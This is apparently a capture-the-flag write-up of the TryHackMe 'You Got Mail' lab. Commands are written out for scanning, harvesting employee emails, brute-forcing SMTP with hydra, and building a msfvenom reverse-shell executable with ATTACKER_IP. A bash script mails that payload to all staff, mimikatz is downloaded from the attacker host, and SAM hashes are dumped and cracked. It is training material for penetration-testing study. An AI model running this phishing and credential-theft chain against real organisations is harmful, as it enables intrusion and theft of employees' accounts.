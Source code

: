 ```yaml
---
layout: post
title: TryHackMe/Medium/You-Got-Mail
abbrlink: 73a22bde71c845d0b677c4f2a53ced83
tags:
  - web
  - windows
  - phishing
categories:
  - Labs
  - TryHackMe
  - 2. Medium
  - You Got Mail
date: 1739177655436
updated: 1739192034871
---
```


<https://tryhackme.com/room/yougotmail>

# Scenario

You are a penetration tester who has recently been requested to perform a security assessment for Brik. You are permitted to perform active assessments on `MACHINE_IP` and strictly passive reconnaissance on `brownbrick.co`. The scope includes only the domain and IP provided and does not include other TLDs.

To begin, start the Virtual Machine by pressing the Start Machine button at the top of this task. You may access the VM using the AttackBox or your VPN connection. Please allow 3-4 minutes for the VM to fully boot up.

***

# Enumeration

## \[+] 10.10.14.36

For this lab, the domain `brownbrick.co` is a live website. For this reason, we can skip adding the IP address and domain to our `/etc/hosts/` file.

Let's start by using `export` so we can assign the IP address to the environment variable `RHOSTS` so we can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.14.36
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] brownbrick.co

### \[-] brownbrick.co/menu.html

Our first objective is to find e-mail addresses for our phishing campaign. We can start by visiting the company's website and clicking on the "Our Team" link:

![444e57e591eda1274cb2ad7e8fa2748a.png](/resources/868a20c2e852458794b8bb48aa274f0e.png)

Scrolling down the page gives us 6 employee e-mail addresses:

![6ff1bd698809220d33cafae9330c7559.png](/resources/fe53fb2530634362b6e23ce5dfd49d3a.png)

Let's save these to a new text file named `emails.txt`:

```plaintext
oaurelius@brownbrick.co
wrohit@brownbrick.co
lhedvig@brownbrick.co
tchikondi@brownbrick.co
pcathrine@brownbrick.co
fstamatis@brownbrick.co
```

Next, we'll build a wordlist using the [cewl](https://github.com/digininja/CeWL) tool which will create a wordlist based on the text on the company's website. The `--lowercase` option will make all the word lowercase and then saves them to a text file named `passwords.txt`:

```plaintext
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

# Initial Foothold

## \[+] Port 587 - SMTP

### \[-] brick-mail\wrohit

Now that we have a list of e-mails and possible passwords, we can try brute forcing an account on the SMTP e-mail server.

```plaintext
hydra -L emails.txt -P passwords.txt 10.10.14.36 smtp -s 587 -t 16
```

After some time, we will find the password for the account `lhedvig@brownbrick.co`:

![242199bc898fde31312a30b23e96dfc2.png](/resources/eb475a6fa43c4fa88d96cd7f1d01a869.png)

With this e-mail account, we can try to phish the other employees of the company using a backdoor and the e-mail list we created earlier.

First, we'll create our backdoor using `msfvenom` and since our Nmap scan revealed a lot of Microsoft services, we can assume that the company is using Windows machines:

```plaintext
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o shell.exe
```

We can use the following bash script to send e-mails with the `shell.exe` attachment to all the addresses in the `emails.txt` file using the `lhedvig@brownbrick.co` e-mail with the `sendemail` command:

```sh
#!/bin/bash

# Define the common arguments
FROM="lhedvig@brownbrick.co"
SUBJECT="test"
MESSAGE="test"
ATTACHMENT="shell.exe"
SMTP_SERVER="10.10.14.36:25"
USERNAME="lhedvig@brownbrick.co"
PASSWORD="<REDACTED>"

# Read the email addresses from the file and send email
while IFS= read -r email; do
  sendemail -f "$FROM" -t "$email" -u "$SUBJECT" -m "$MESSAGE" -a "$ATTACHMENT" -s "$SMTP_SERVER" -xu "$USERNAME" -xp "$PASSWORD"
done < emails.txt
```

Before running the script, we'll start our Netcat listener on port 4444:

```plaintext
nc -nvlp 4444
```

Then run the script to send the e-mails:

```plaintext
sh script.sh
```

![7a2939673917560c1c8977cdc85e5dda.png](/resources/a216d9176bee4d369f3e76358f54d198.png)

After a moment, we'll have a connection back to our listener on port 4444:

![77e0d12d20b5c19ad0a9e1367e5ecbad.png](/resources/0939ee66a48744ed8003d7135a237b42.png)

We can find the user flag in `C:\Users\wrohit\Desktop\flag.txt`:

![1231a37a569b149ed4f8dce87a39b78f.png](/resources/c3f9f5f4dee24718af35d387f5b477fd.png)

To get the password for the user `wrohit`, we will use [mimikatz](https://github.com/gentilkiwi/mimikatz) to dump the NTLM hashes of the passwords and decrypt the hash.

After downloading mimikatz on the attacking machine, host the file using `python3`:

```plaintext
python3 -m http.server 8888
```

Then on the victim machine, run `curl` to download the file and save it using `-o <FILENAME>`:

```plaintext
curl http://<ATTACKER_IP>/mimikatz.exe -o mimikatz.exe
```

When the file transfer is finished, we can run the following command to dump the local Security Account Manager hashes:

```plaintext
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

![d4cf5fc60bbec1b17cded1259bbbbb14.png](/resources/3b0b0a4f96da4259a618d7bbc44c91cf.png)

To decrypt the hash, we'll use [CrackStation](https://crackstation.net/) which is a database of known hashes and their plaintext:

![fbd755a7fa324cf128bb24a2b332b63c.png](/resources/aa4cf0e7031d4c1e8e9af53421034298.png)

The last task we need to do is to find the password for the hMailServer Administrator dashboard. We can find the configuration file that has the hashed password in `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`:

![afafddfa83a49a32c964e130ca4d9509.png](/resources/437e6d54e92743bf827896651f07919c.png)

To find the plaintext, we'll utilize CrackStation again:

![95569c1f4562c6b2ed5f0859f11f725e.png](/resources/054889a31e7743e5abf1c893f0b10a68.png)
